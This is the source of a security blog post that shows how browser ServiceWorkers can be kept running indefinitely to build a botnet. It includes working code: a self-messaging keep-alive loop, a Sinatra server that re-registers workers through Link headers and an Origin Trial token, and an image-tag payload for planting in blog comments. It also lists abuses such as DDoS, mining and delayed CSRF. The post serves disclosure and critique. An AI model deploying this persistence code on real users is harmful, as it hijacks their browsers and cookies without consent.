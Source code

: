 ```yaml
---
layout: post
title:  "Building Botnet on ServiceWorkers"
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
public: false
---
```


TL;DR In this post I will demonstrate one of the numerous ways how ServiceWorkers let us execute Javascript code inifinitely in the browser and will rant a little bit about ServiceWorkers design.

For demonstration <a href="https://jsfiddle.net/Lsd6vgkb/3/">visit this link</a>. Close that tab. Few minutes later open DevTools/Application/ServiceWorkers/Show All and see it running. (could be fixed by now though)

This Catworker runs infinitely, and like a zombie, executes different tasks. No need for a malicious page, just any https:// blog allowing external images in the comments to plant the payload `<img src="https://truefactor.io/cat.gif">`. 

Any web developer would be surprised: <b>How come an image tag leads to JS code execution? How come that JS execution is persistant? I never allowed that!</b>

## ServiceWorkers are overly complex

To make "Progressive" Web Applications popular Chrome team created ServiceWorkers, and they never asked your permission. Currently the only real world use case for that "shiny tech" is to show a Push Notification popup. If you don't believe me, open your registered service workers and inspect their contents. 

Even that simple trick is overcomplicated - <a href="https://developers.google.com/web/updates/2015/03/push-notifications-on-the-open-web#implementing_push_messaging_for_chrome">hunders of lines of code to get started, dependance on FCM etc</a>. 

Put sw.js on the server, register a worker on the client side, wait for a Promise, then serviceWorkerRegistration.pushManager.getSubscription(), extract endpoint and registration_id, save those on the server.

Could be: `navigator.pushManager.getSubscription("We will send you weather updates once an hour").then(function(endpoint){ #FCM endpoint })`

In my humble opinion ServiceWorker is a beautiful answer to non existing question. It is way harder to learn than Appcache while being less secure.

## How to keep it alive for long

ServiceWorker is killed 60 seconds after it receives last event e.g. onmessage, onfetch, onforeignfetch etc

1. postMessage-ing itself

{%highlight ruby%}
self.addEventListener('message', function (event) {
    var spawnNewMessageEvent = function (data) {
        return new Promise(function (success) {
            setTimeout(function () {
                var sw = self.registration.active;
                sw.postMessage(data);
                success("success");
            }, 30000)
        });
    };
    event.waitUntil(doSomething().then(spawnNewMessageEvent));
});
{%endhighlight%}

2. Two workers foreignfetch-ing each other. To use a ForeignFetch you need to <a href="https://bit.ly/OriginTrialSignup">apply for Origin Trial token</a> - entirely automatic process, no review/verification, and allows the attacker to use fresh experimental techniques on real users without their consent.

3. One catworker doing a fetch to cat.gif, which leads to registration of a new worker with different scope (it's called Link-based registration), repeat 55 seconds later. 

{%highlight ruby%}
require 'sinatra'
ot = 'AglMWHYLtMNT8FVZp9u368r0HZPKh7Pjfm7WYEyHwKz4zwaSznv682Bckrz903mz54CVZQACD5ZlSrLpuh8CKQIAAABYeyJvcmlnaW4iOiAiaHR0cHM6Ly90cnVlZmFjdG9yLmlvOjQ0MyIsICJmZWF0dXJlIjogIkZvcmVpZ25GZXRjaCIsICJleHBpcnkiOiAxNDg0OTM2NzI3fQ=='

get "/cat.gif" do
  response.headers['Origin-Trial'] = ot;
  response.headers['Access-Control-Allow-Origin'] = '*';
  response.headers['Link'] = '</sw?'+rand(999999999).to_s+'>; rel="serviceworker"; scope="/'+rand(999999999).to_s+'"'

  if params[:skip]
    'ok'
  else
    response.headers['Content-Type'] = "image/gif"
    File.open('./cat.gif').read
  end
end

get "/sw" do
  response.headers['Content-Type'] = "text/javascript"
  return sw=<<HTML
//#{rand(999999999).to_s}
setTimeout(function(){
  console.log("Forking")
  fetch('https://truefactor.io/cat.gif?skip=1&'+Math.random(9999999));
}, 30000);
HTML
end
{%endhighlight%}

## How it can be abused?

Right now, attackers could benefit from your browser in three quite dangerous ways.

1. DDoS someone (easy to stop by Referer blocklist)

2. memory-hard calculations like scrypt/litecoin mining. I can get only 2000 hashes/sec, but it's completely free and can scale to millions of machines. <a href="https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Functions_and_classes_available_to_workers">Look through other functions</a> available inside of a ServiceWorker.

3. Most dangerous, delayed CSRF. Once you find a CSRF issue on a website you can send a job to all your zombies and abuse their cookies to run some requests on their behalf.

ServiceWorkers == persistance by design. They run after you close the tab, they randomly recieve 'sync' events and wake up, get updated every 24 hours, and if you allowed a website to send Push Notifications, they can also run some JS every time they show a popup. All that stuff is already in production for quite a while. 

There will be more bypasses to keep attacker's code running. This class of bugs doesn't get enough attention from the team. <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=647943">Reports</a> <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=662443">are</a> <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=648836">public</a> and given very low priority.

On top of that, <b>Origin Trials approach is flawed</b> - anyone can get a Token, anyone can abuse an experimental feature. Must be opt-in via flags only.

I strongly believe there should be a way to switch off ServiceWorkers with a flag, because for me, it brings nothing to the table (did you read the Cache docs? it's like rocket science), and I'm not so sure it won't break Same Origin Policy or whatever in the future, since features are rushed to production with little review...  Here are some more low-sev vulnerabilities: <a href="https://tools.cisco.com/security/center/viewAlert.x?alertId=43522">FF</a>, <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=422966">JSONP+XSS=takeover</a>, <a href="https://alf.nu/ServiceWorker">easier to take over sandbox domains</a>.
